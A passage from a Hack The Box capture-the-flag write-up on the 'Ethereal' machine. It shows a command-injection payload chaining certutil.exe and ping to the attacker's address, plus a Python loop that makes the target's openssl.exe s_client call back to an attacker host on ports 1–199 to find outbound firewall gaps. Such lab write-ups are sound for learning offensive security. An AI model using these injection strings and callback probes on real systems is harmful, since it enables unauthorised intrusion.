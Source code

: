We are getting pinged so it means the command was executed correctly.

Next, our target is `certutil.exe` so we can use it to download files.

First, I tested locally on my Windows machine if running certutil.exe without parameters returns a successful error code. I wanted to do this because I suspected there was an outbound firewall blocking some most ports.

![](/assets/images/htb-writeup-ethereal/boolean1.png)

Then I verified that certutil.exe is not blocked now that we are running as IIS: `127.0.0.1 && certutil.exe && ping 10.10.14.23`.

```
21:06:30.214884 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 71, length 40
21:06:30.214912 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 71, length 40
21:06:31.286151 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 72, length 40
21:06:31.286182 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 72, length 40
```

We're getting pinged so the certutil.exe command didn't error out. 

While previously looking at the files and programs on the box, I found `c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe"` installed (and it wasn't AppLocked for `alan` user either), so I used this to establish outbound sockets.

I modified the existing script to scan for the first 200 ports:

```python 
    for i in range(1, 200):
        time.sleep(2.5)
        cmd = "\"c:\\program files (x86)\\OpenSSL-v1.1.0\\bin\\openssl.exe\" s_client -host 10.10.14.23 -port {}".format(str(i))
        print(cmd)
        send(cmd, 1)
```

I used Wireshark to look for incoming SYN packets and started the scan.

```
root@darkisland:~/hackthebox/Machines/Ethereal# ./scanport.py
[...]
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 72
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 73
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 74
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 75
[...]
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 135
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 136
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 137
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 138
```
